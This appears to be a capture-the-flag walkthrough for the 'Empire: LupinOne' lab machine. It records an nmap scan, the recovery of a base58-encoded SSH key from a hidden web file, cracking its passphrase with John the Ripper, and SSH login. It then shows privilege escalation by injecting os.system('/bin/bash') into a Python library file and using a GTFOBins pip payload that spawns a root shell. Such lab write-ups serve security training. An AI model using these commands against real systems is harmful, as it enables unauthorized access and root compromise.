


# Empire: LupinOne

username = icex64

password = P@55w0rd! 

### Nmap Scan

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 ed:ea:d9:d3:af:19:9c:8e:4e:0f:31:db:f2:5d:12:79 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCaL5p72wiDPedc7E90ri+viPAaxmn+59SWIoEF4hd4H3ethRxcpkU+DVtTgDbSwCK99T9jAjE0o2V6NLYKRW6dzHjVfUcvXRSlLyM2ffBETKcw4qqdoheEu7S52Q8ZInAavtS0tdL8HsO/0QoXBmtUl/ted9yf+X7Y3C+HcnMEZw+5+vTRObwn3K5jeCPCViZoapIGJM/a+YDpRmwZjeRhuf1gEDXFnqUB+Ro5gC19+/3GvY9O9VbIat02ckAUhNiDqMEj3DDsj5m9PS8FG7aGgYFJIQ53QUSw6JIw4cKhs72VtwjGr4ghaOTC1JFudKyzWwAZvaWnJdbR4KhkjCVGyZHQ443Bq+MhTmS6aX56oVBeWPucaudyhemrYQiRBRi7uXRxcuVtpvetgA6X4TVgbkwKI0EvMxblolJZYcyUHKZ2TmrxtAi6UV6vY0+uqUUcZZgbzb2qBdOI2avxGaX0nrBMbahjQS0nNz2UI/4qf0bfkXyC6arnTKg67/zKyGs=
|   256 bf:9f:a9:93:c5:87:21:a3:6b:6f:9e:e6:87:61:f5:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP89M+Gx4b3irH4ph8Fyq2lBuyLq2yqNfRV4CpNpwlVLMYi53OnWVyIYnwWFxi1VsK3Rze4qBmgQy9Qaun6Uixs=
|   256 ac:18:ec:cc:35:c0:51:f5:6f:47:74:c3:01:95:b4:0f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBMI8KKmlP6LyPMawRRmpwVKGOd5QvO5Ob29UcLugTPY

80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.48 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/~myfiles
MAC Address: 00:0C:29:04:D8:A0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

Hidden Directory 

```bash
/~secret 
	/.mysecret.txt
```

- In `/secret` directory we get useful information like username.



- In `/.mysecret.txt` directory → base58 encoded ssh private key.
- Decode this base58 from cyberchef.



---

### Crack Password Using John

- After decoding id_rsa file

```bash
/usr/bin/ssh2john id_rsa > hash.txt
```

- Brute-Force

```bash
john hash.txt --wordlist=/usr/share/wordlists/fasttrack.txt
```

- password = P@55w0rd!

---

### SSH Login

username = icex64

password = P@55w0rd! 

```bash
ssh icex64@IP -i id_rsa
```

---

### PrivEsc → run linpeas

```bash
/usr/lin/python3.9/webbrowser.py 
- In this above file add  
```

```bash
os.system ("/bin/bash")

## change the user
sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py  

## now we get pip SUID
sudo -l  
```

- GTFOBins Payload

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```